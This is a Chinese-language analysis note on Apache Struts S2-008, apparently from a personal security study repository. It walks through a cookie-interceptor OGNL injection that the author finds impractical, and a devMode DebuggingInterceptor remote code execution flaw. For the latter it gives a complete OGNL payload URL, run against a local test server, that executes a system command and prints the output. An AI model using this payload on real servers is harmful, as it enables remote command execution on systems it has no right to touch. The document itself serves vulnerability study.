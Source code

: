 # S2-008漏洞分析

这个涉及了多个鸡肋漏洞，但是思路还是可以学！

## 影响版本

Struts 2.1.0 - Struts 2.3.1

## Cookie 拦截器错误配置可造成 OGNL 表达式执行分析

还需要配置一下真恶心，之前的struts.xml

```java
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE struts PUBLIC
        "-//Apache Software Foundation//DTD Struts Configuration 2.0//EN"
        "http://struts.apache.org/dtds/struts-2.0.dtd">

<struts>
    <package name="S2-001" extends="struts-default">
        <interceptors>
            <interceptor name="cookie" class="org.apache.struts2.interceptor.CookieInterceptor"/>
        </interceptors>
        <action name="login" class="com.test.s2001.action.LoginAction">
            <result name="success">welcome.jsp</result>
            <result name="error">index.jsp</result>
            <interceptor-ref name="defaultStack" />

            <interceptor-ref name="cookie">
                <param name="cookiesName">*</param>
                <param name="cookiesValue">*</param>
            </interceptor-ref>
        </action>
    </package>

</struts>
```



![](img/6.jpg)

这里看出确实可以，但是遇到一些特殊字符就无了，因此太鸡肋了甚至没必要分析了

![](img/5.jpg)

主要是大多 Web 容器对 Cookie 名称都有字符限制，比如tomcat的

```java
 public static final char SEPARATORS[] = { '\t', ' ', '\"', '(', ')', ',', ':', ';', '<', '=', '>', '?', '@', '[', '\\', ']', '{', '}' };
```

所以没法利用，知道有这玩意儿就行了

## Struts <= 2.3.17 DebuggingInterceptor RCE

开启很简单在`struts.xml`当中添加

```xml
<constant name="struts.devMode" value="true" />
```

简单测试一下，果然是可以的

![](img/2.png)

```url
http://127.0.0.1:8080/login.action?debug=command&expression=(%23_memberAccess.allowStaticMethodAccess=true,%23context["xwork.MethodAccessor.denyMethodExecution"]=false,%23cmd="ifconfig",%23ret=@java.lang.Runtime@getRuntime().exec(%23cmd),%23data=new+java.io.DataInputStream(%23ret.getInputStream()),%23res=new+byte[1000],%23data.readFully(%23res),%23echo=new+java.lang.String(%23res),%23out=@org.apache.struts2.ServletActionContext@getResponse(),%23out.getWriter().println(%23echo))
```

现在简单分析一下，在`org.apache.struts2.interceptor.debugging.DebuggingInterceptor`,在前面可以看到有四种模式，具体自己测试

```java
private static final String XML_MODE = "xml";
private static final String CONSOLE_MODE = "console";
private static final String COMMAND_MODE = "command";
private static final String BROWSER_MODE = "browser";
```

那为什么可以解析任意ognl表达式呢，看下面两张图够了，太简单了就这样吧

![](img/3.png)![](img/4.png)

## 其他

太鸡肋了，暂时不想搞了
